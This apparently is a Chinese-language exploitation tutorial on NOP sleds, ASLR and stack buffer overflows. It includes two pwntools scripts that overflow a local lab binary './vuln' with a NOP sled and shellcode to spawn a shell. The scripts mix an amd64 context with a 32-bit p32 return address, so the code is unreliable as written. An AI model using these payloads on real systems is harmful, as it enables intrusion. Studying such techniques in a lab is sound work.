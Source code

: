 ```yaml
---
title: 'NOPs'
date: '2023-08-08'
lastmod: '2023-08-20'
tags: ['PWN', 'Stack']
draft: false
summary: '更可靠的 shellcode'
authors: ['default']
---
```


<div className="border-solid border-2 border-surface0 dark:border-surface0-dark p-2 bg-base dark:bg-base-dark mt-5">
  <TOCInline toc={props.toc} asDisclosure />
</div>

由于在调试工具里得到的返回地址和正常运行时并不一致（这是运行时环境变量等因素有所不同造成的），所以这种情况下我们只能得到大致但不确切的 shellcode 起始地址，解决办法是在溢出 Padding 前面填充若干长度的 NOP。

NOP，无操作 (**N**o **OP**eration) 指令的作用正如其名：什么也不做。所以在运行到 NOP 指令的时候只会使程序计数器加一，而不会发生其它的事情。这是一种可以破解栈随机化的缓冲区溢出攻击方式。攻击者通过填充字符串注入攻击代码，在实际的攻击代码前注入很长的 NOP 指令序列，只要程序的控制流指向该序列任意一处，都可以无副作用地跳转到 shellcode 的起始处，这允许我们有更大的误差范围，因为向前或向后移动几个字节不会影响程序的正常运行。这与直接运行 shellcode 具有相同的效果。这种 NOP Padding 通常被称为 NOP Slide 或 NOP Sled（俗称「滑雪橇」），因为 EIP 本质上是沿着它们 Slide 的。这样我们就可以通过增加 NOP 填充来试验 shellcode 的起始地址。NOP Sled 可以帮助攻击者提高访问到自己的攻击代码的概率。

[地址空间配置随机化 (ASLR)](https://zh.wikipedia.org/wiki/%E4%BD%8D%E5%9D%80%E7%A9%BA%E9%96%93%E9%85%8D%E7%BD%AE%E9%9A%A8%E6%A9%9F%E8%BC%89%E5%85%A5) 指程序运行时栈的起始地址是随机的，所以程序中存放各函数返回地址的地址也会发生对应的改变。可防止运行相同程序的相同系统因易预测栈地址而被攻击。

由于栈地址在一定范围的随机性，攻击者不能够知道攻击代码注入的地址，而要执行攻击代码需要将函数的返回地址更改为攻击代码的地址（可以通过缓冲区溢出的方式篡改函数的返回地址）。所以，只能在一定范围内（栈随机导致攻击代码地址一定范围内随机）枚举攻击代码的地址（有依据的猜）。

<Note>
  为了尝试破解 $2^{23}$ 的随机化，则需要枚举 $2^{23}$ 个返回地址。而使用 NOP Sled 的方式，若枚举一个 $2^{8}$ Bytes 的 NOP sled，则只需要枚举 $2^{23} / (2^{8} + 1)$ 个返回地址即可，因为每次枚举出的地址只要是 $2^{8}$ 中的之一就可以。（攻击代码本身有一个起始地址，所以为 $255 + 1$）
</Note>

不用 NOP Sled，函数返回地址 ---> 攻击代码<br />
使用 NOP Sled，函数返回地址 ---> NOP 序列（顺序执行）直到攻击代码地址

在 Intel x86 汇编中，NOP 指令是 `\x90`。

NOP 指令是 `XCHG EAX, EAX` 的别名（32 bit 系统中），它实际上什么也不做。你可以在这个 [问题](https://stackoverflow.com/questions/25008772/whats-the-difference-between-the-x86-nop-and-fnop-instructions) 上阅读更多相关信息。

## 0x01 更新 Exploit

现在可以对我们的 EXP 进行一些细微的更改，以完成两件事：

- 添加大量 NOP Padding
- 调整我们的返回地址以指向 NOP 的中间而不是缓冲区的开头

<Warning>
  确保 ASLR 仍处于禁用状态。你可能需要重新调整之前的 EXP，因为缓冲区位置可能会有所不同。
</Warning>

```python:exp.py
from pwn import *

context(os='linux', arch='amd64', log_level='info')

context.binary = ELF('./vuln')

p = process()

payload = b'\x90' * 240             # 构建 NOPs
payload += asm(shellcraft.sh())     # 构建 shellcode
payload = payload.ljust(312, b'A')  # 溢出 Padding
payload += p32(0xffffd664 + 120)    # 缓冲区地址 + 一半 NOPs 长度

p.sendline(payload)

p.interactive()
```

<Warning>
  值得一提的是：带有 NOP 的 shellcode 并不是万无一失的。如果出现用 NOP Sled 造成的意外错误，但 shellcode 在使用 NOP Sled 之前可以正常工作，请尝试减少 NOP Sled 的长度，因为它可能会篡改栈上的其它内容。
</Warning>

**NOP 在某些架构中不是 `\x90`。如果你需要其他架构的 NOP，可以使用 pwntools：**

```python
nop = asm(shellcraft.nop())
```

## 0x02 最终 Exploit

```python:exp.py
from pwn import *

context(os='linux', arch='amd64', log_level='info')

context.binary = ELF('./vuln')

p = process()

payload = asm(shellcraft.nop()) * 240  # 构建 NOPs
payload += asm(shellcraft.sh())        # 构建 shellcode
payload = payload.ljust(312, b'A')     # 溢出 Padding
payload += p32(0xffffd664 + 120)       # 缓冲区地址 + 一半 NOPs 长度

p.sendline(payload)

p.interactive()
```

